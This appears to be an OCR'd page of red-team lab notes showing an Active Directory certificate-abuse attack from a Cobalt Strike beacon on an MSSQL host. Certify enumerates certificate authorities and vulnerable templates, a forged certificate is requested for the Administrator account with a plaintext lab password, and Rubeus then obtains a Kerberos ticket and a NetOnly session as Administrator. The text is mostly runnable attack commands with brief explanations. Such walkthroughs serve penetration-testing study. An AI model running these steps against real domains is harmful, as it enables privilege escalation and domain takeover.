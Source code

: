 ### Enumeration on Certificate Authority (CA) on Domain Controller (DC):
Run all commands on the `MSSQL Server Beacon`

1. **Enumerate CA Certificates:**
   ```plaintext
	 execute-assembly /Users/ahmedpinger/Documents/Tools/Certify/Certify/bin/Release/Certify.exe cas
   ```
   This command enumerates the Certificate Authorities (CAs) configured on the Domain Controller.

2. **Find Vulnerable Certificate Templates:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Certify/Certify/bin/Release/Certify.exe find /vulnerable
   ```
   This command identifies vulnerable certificate templates on the Certificate Authority.

3. **Request Custom Certificate:**
   ```
   make_token HACKR\jjohn TheJsPass1@#
   
   execute-assembly /Users/ahmedpinger/Documents/Tools/Certify/Certify/bin/Release/Certify.exe request /ca:dc-1.hackr.games\hackr-DC-1-CA /template:CustomUser /altname:Administrator
   ```
   This command requests a custom certificate from the Certificate Authority with the specified template and alternate name.

4. **Export and Convert Certificate on Linux:**
   ```
   openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
   cat cert.pfx | base64 -w 0
   ```
   These commands export and convert the obtained certificate to a base64-encoded format, suitable for use on Windows.

### Access DC with Obtained Certificate:

1. **Request TGT with Rubeus:**
   ```
   rev2self
   
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe asktgt /user:Administrator /certificate:MII{stripped}NLQ /password:asdf /nowrap
   ```
   This command requests a Ticket Granting Ticket (TGT) for the Administrator user using the obtained certificate.

2. **Create NetOnly Ticket with Rubeus:**
   ```
   execute-assembly /Users/ahmedpinger/Documents/Tools/Rubeus/Rubeus/bin/Release/Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:HACKR /username: Administrator /password:asdf /ticket:doIGVj{stripped}CCBlKgA
   ```
   This command creates a NetOnly ticket for command execution with the specified program path.
